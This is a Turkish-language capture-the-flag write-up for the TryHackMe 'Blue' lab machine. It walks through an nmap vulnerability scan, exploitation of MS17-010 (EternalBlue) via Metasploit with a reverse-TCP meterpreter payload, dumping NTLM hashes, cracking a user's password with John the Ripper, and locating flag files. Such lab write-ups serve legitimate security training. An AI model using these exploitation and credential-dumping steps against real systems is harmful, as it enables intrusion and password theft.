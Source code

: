
# CTF Writeup - Blue (TryHackMe)

## Genel Bilgiler
| Alan       | Bilgi                 |
| ---------- | --------------------- |
| Makine Adı | Blue                  |
| Platform   | TryHackMe             |
| IP Adresi  | 10.10.3.18            |
| Zorluk     | Kolay                 |
| Tür        | Windows / SMB Exploit |

---

## 1. Keşif (Recon)

### Nmap Taraması

```bash
nmap 10.10.3.18 -sS -sV --script vuln
```

### Açık Portlar
- 445/tcp - Microsoft-ds (SMB)
- 139/tcp - NetBIOS
- 135/tcp - MS RPC

![nmap_sonuc](./images/nmap_sonuc.png)

SMB servisinin çalıştığı 445 numaralı portta EternalBlue zafiyeti (MS17-010) tespit edildi.

---

## 2. Exploit Aşaması

Zafiyet: **MS17-010 (EternalBlue)**  
Araç: `Metasploit`

![search_exploit](./images/search_exploit.png)

![ayarlar](./images/options.png)

```bash
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > show options
msf6 > set RHOSTS 10.10.3.18
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > exploit -j -z
```

![session](./images/session.png)
(Bağlantı bilgisinde hedef makine IP 'sinin farklı görünmesinin sebebi makineyi yeniden başlatmış olmamdır.)


```bash
sessions -i 1
```

---

## 3. Yetki Kontrolü

Exploit adımından sonra meterpreter shell elde edildi ve sisteme girildi. `getuid` komutuyla sistem üzerinde admin haklarına sahip olunduğu teyit edildi.


```bash
getuid
sysinfo
```
---

## 4. Hash Kırma

`hashdump` komutu ile sistemdeki kullanıcı parolalarının NTLM hashleri elde edildi.

![dump](./images/dump.png)

Burada Jon kullanıcısının NTLM hashine odaklanıyoruz. NTLM hashlerinde asıl parolayı barındıran kısım üzerini yeşil ile geçtiğim kısımdır.

```bash
echo ffb43f0de35be4d9917ac0cc8ad57f8d > hash.txt
```

![hashcrack](./images/john_the_ripper.png)

John The Ripper aracı ile Jon kullanıcısının parola hashi kırıldı ve parola `alqfna22` olarak bulundu.

---

## 6. Ele Geçirilen Flag 'ler

```bash
search -f flag1.txt
search -f flag2.txt
search -f flag3.txt
```


| Flag Türü | Konumu                                      |
| --------- | ------------------------------------------- |
| flag1.txt | C:\flag1.txt                                |
| flag2.txt | C:\Windows\System32\config\flag2.txt        |
| flag3.txt | C:\Users\Jon\Documents\flag3.txt            |

---

